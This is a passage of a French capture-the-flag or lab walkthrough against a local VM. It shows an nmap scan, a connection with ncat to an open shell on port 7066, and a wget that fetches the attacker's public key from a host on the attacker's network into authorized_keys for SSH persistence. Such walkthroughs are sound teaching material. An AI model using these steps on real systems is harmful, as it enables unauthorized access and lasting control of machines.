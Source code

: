 J'ai relancé une nouvelle fois :

```
PORT      STATE  SERVICE VERSION
1222/tcp  closed nerv
3944/tcp  closed sops
5973/tcp  closed unknown
7066/tcp  open   unknown
16444/tcp closed overnet
20567/tcp closed unknown
21596/tcp closed unknown
25406/tcp closed unknown
30066/tcp closed unknown
30166/tcp closed unknown
31820/tcp closed unknown
```

Les services semblent quelque peu sporadiques. Finalement sur le port 7066 un shell nous attendait.

Je ne sais pas comment il est lancé, mais ce port a visiblement du mal à se relancer en cas de problèmes. Dès fois une reboot de la VM peut être profitable.

```console
$ ncat 192.168.56.107 7066 -v
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.107:7066.
id
uid=1000(todd) gid=1000(todd) groups=1000(todd)
pwd
/root
cd /home/todd
pwd
/home/todd
ls
user.txt
ls -al
total 24
drwxr-xr-x 2 todd todd 4096 Mar 22 08:03 .
drwxr-xr-x 3 root root 4096 Mar 22 06:53 ..
lrwxrwxrwx 1 root root    9 Mar 22 08:03 .bash_history -> /dev/null
-rw-r--r-- 1 todd todd  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 todd todd 3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 todd todd  807 Apr 18  2019 .profile
-rw-r--r-- 1 todd todd   39 Mar 22 06:54 user.txt
mkdir .ssh
cd .ssh
wget http://192.168.56.1:8000/hacker.pub -O authorized_keys
exit
```

### Luigi

Une fois placé ma clé SSH parmi les clés autorisées, je peux obtenir un accès via le port SSH.
